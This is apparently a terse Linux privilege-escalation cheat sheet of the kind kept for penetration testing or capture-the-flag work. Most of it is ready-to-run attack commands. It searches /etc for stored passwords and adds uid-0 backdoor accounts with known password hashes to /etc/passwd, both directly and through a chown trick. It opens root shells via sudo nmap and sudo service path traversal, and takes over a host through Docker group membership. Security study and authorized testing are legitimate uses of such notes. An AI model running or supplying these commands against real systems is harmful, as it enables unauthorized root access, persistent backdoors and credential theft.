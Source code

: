 ## Enum
### Find all world-writable files
```
find /bin -perm -o+w -print 2>/dev/null
```

### Find credentials
```
grep -lRi "password" ./etc 2>/dev/null | sort | uniq > files.txt
for p in $(cat files.txt); do grep password $p; done
```

## Linux Root tricks
Tricks to play after running `sudo -l`
https://gtfobins.github.io/

### Change passwd file
```
hack:$1$-hack$cP2Gt085ove2RDgBPWMR2/:0:0:root:/root:/bin/bash
su hack
Password: pass123
```

### Chown
```
sudo chown asterisk:asterisk /etc/passwd
echo "flame:sa/zAjIC0QWtk:0:0::/root/:/bin/bash" >> /etc/passwd
su - flame
Password: flamen
```

### nmap
```
sudo nmap --interactive
!sh
```

### service
```
sudo /sbin/service ../../../bin/bash
```

## Some common exploit

### Docker
How to spot
```
lse check user in docker group
```
Exploit
```
docker images
cd /
echo 'toor:$1$.ZcF5ts0$i4k6rQYzeegUkacRCvfxC0:0:0:root:/root:/bin/sh' >> /mnt/etc/passwd
su toor
password
```

### Check sudo
```
sudo -l
```

### no-root-squash nfs
https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe


